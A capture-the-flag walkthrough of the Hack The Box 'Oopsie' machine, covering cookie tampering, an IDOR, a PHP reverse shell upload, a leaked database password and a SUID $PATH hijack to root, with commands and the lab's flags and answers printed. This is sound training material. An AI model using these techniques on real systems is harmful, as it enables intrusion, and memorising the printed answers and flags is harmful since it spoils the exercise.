









# 🐧 Oopsie — HTB Starting Point


> **TL;DR** — Hidden login panel → log in as guest → tamper the cookie (`role`/`id`) to become admin → IDOR leaks the admin ID → upload a PHP reverse shell → `robert`'s password in `db.php` → SSH → privesc via the SUID `bugtracker` binary that calls `cat` without a full path (`$PATH` hijack) → root.

**Tags:** `IDOR` · `Cookie tampering` · `File upload` · `PHP reverse shell` · `SUID` · `$PATH hijack`

---

## 1. Tool that can intercept web traffic

> **Answer:** `proxy`

## 2. Path to the login page

Gobuster/ffuf didn't find the panel. The homepage HTML references a script:

```html
<script src="/cdn-cgi/login/script.js"></script>
```

The `/cdn-cgi/login` path leads to the panel:



> **Answer:** `/cdn-cgi/login`

## 3. What to modify in Firefox to reach the upload page?

Log in as **guest**. The *Uploads* tab requires super admin rights:



In Firefox, change the cookie value to elevate privileges:



> **Answer:** `cookie`

## 4. Access ID of the admin user

Burp Intruder (brute-forcing IDs up to 10000) found nothing. In the *Account* tab the URL has an `id` parameter — changing it to `1` returns the admin ID:



> **Answer:** `34322`

## 5. Directory where an uploaded file lands

> **Answer:** `/uploads` (found earlier with gobuster)

## 6. File with the password shared with user `robert`

After tampering the cookie, upload a [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell) and trigger it from `/uploads/`:



Upgrade to a fully interactive shell:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo; fg
# Enter, Enter
```

In `/var/www/html/cdn-cgi/login/db.php` I find `robert`'s password:



> **Answer:** `db.php` → password `M3g4C0rpUs3r!`

## 7–10. Analyzing the `bugtracker` binary

| Question | Answer |
|---|---|
| Binary that finds files by `-group bugtracker` | `find` |
| Privileges `bugtracker` runs with, regardless of caller | `root` (SUID) |
| What SUID stands for | **Set owner User ID** |
| Name of the executable called insecurely | `cat` |

`bugtracker` has the SUID bit set (owner `root`):

```
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
```



`strings` reveals the binary runs `cat /root/report` — **without a full path**, so `cat` is resolved from `$PATH`. This lets us plant a fake `cat` and execute code as root:



## 11. User flag

In `robert`'s home directory:

> `f2c74ee8db7983851ab2a96a44eb7981`

## 12. Root flag — privilege escalation

`bugtracker` can only be run by root and the `bugtracker` group, so log in as `robert` over SSH (password from step 6):

```bash
ssh robert@10.129.x.x   # M3g4C0rpUs3r!
```

Plant a fake `cat`, prepend it to `$PATH`, then run `bugtracker`:

```bash
echo '/bin/sh' > /tmp/cat
chmod +x /tmp/cat
export PATH=/tmp:$PATH
bugtracker
```

This yields a root shell. Read the flag with a full path (since `$PATH` is hijacked):

```bash
/bin/cat /root/root.txt
```



> `af13b0bee69f8a877c3faf667f7beacf`

---

## 🚩 Flags

| | |
|---|---|
| **User** | `f2c74ee8db7983851ab2a96a44eb7981` |
| **Root** | `af13b0bee69f8a877c3faf667f7beacf` |
